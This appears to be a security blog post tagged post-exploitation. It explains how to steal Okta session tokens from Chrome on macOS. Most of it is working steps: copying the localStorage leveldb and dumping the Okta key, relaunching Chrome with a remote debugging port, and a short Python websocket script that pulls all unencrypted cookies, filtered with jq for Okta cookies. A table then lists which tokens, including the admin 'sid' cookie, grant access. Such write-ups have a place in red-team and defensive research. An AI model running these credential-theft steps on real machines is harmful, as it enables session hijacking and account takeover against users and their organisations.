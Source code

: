 ```yaml
---
layout: post
title: "Dumping Okta Sessions in Chrome"
date: 2024-11-17
tags: ["post-exploitation"]
---
```


# Problem Statement

How difficult is it to steal Okta session tokens?

# Local Storage

Google Chrome (macOS) localStorage is saved on the filesystem in the leveldb file: `/Users/<user>/Library/Application Support/Google/Chrome/Default/Local Storage/leveldb`.[^1]

To dump localStorage:
* `git clone https://github.com/rdreher/chromeStorageDump.git`
* `npm install levelup leveldown`
* Avoid a file lock, by first copying leveldb to /tmp
* `cp -R "/Users/<user>/Library/Application Support/Google/Chrome/Default/Local Storage/leveldb" "/tmp/leveldb"`
* `node chromeStorageDump.js -k okta-cache-storage "/tmp/leveldb"`

# Cookies

Google Chrome (macOS) cookies are stored in an encrypted SQLite database with the key saved in the keychain.[^2] [^3] Unencrypted cookies can still be fetched by attaching a remote chrome debugger.[^4] [^5] This technique requires existing Chrome browsers to be restarted with the `--remote-debugging-port` flag. 

* `killall Google\ Chrome`
* `/Applications/Google\ Chrome.app/Contents/MacOS/Google\ Chrome --remote-allow-origins="*" --remote-debugging-port=9222 --user-data-dir="/Users/<user>/Library/Application Support/Google/Chrome" --restore-last-session --profile-directory=Default`

The following `/json` endpoint provides a list of websocket addresses. 
* `curl http://localhost:9222/json`

Using a websocket client, connect using the correct page id to dump the unencrypted cookie in JSON format.

* `pip3 install websocket`
* `pip3 install websocket-client`

```python
# ripWCMN.py
import websocket
ws = websocket.WebSocket()
ws.connect("ws://localhost:9222/devtools/page/<id>", suppress_origin=True)
ws.send('{\"id\": 1, \"method\": \"Network.getAllCookies\"}')
print(ws.recv())
```
* `python3 rip ripWCMN.py  | jq -r '.[] | select(.url="https://<subdomain>.okta.com/app/UserHome")'`
* `python3 rip ripWCMN.py  | jq -c '.result.cookies[] | select(.name="idx")'`

> CREDIT - Justin Bui & @mangopdf

# Okta

If an admin session is stolen from `{tenant}.okta.com`, the session cookie can be used on `{tenant}-admin.okta.com`.[^6]

| Account | Name | Type | Note |
|---|---|---|---|
| Okta Admin | sid | cookie |  |
| Okta User | okta-token-storage | localStorage | jwt auth token |
| Okta User | idx | cookie | higher perms than bearer token |

### References:
[^1]: [https://github.com/rdreher/chromeStorageDump](https://github.com/rdreher/chromeStorageDump)
[^2]: [https://www.cyberark.com/resources/threat-research-blog/the-current-state-of-browser-cookies](https://www.cyberark.com/resources/threat-research-blog/the-current-state-of-browser-cookies)
[^3]: [https://gist.github.com/creachadair/937179894a24571ce9860e2475a2d2ec](https://gist.github.com/creachadair/937179894a24571ce9860e2475a2d2ec)
[^4]: [https://slyd0g.medium.com/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f](https://slyd0g.medium.com/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f)
[^5]: [https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e](https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e)
[^6]: [https://www.linkedin.com/pulse/oktas-so-secret-less-secure-api-authentication-method-chaim-sanders/](https://www.linkedin.com/pulse/oktas-so-secret-less-secure-api-authentication-method-chaim-sanders/)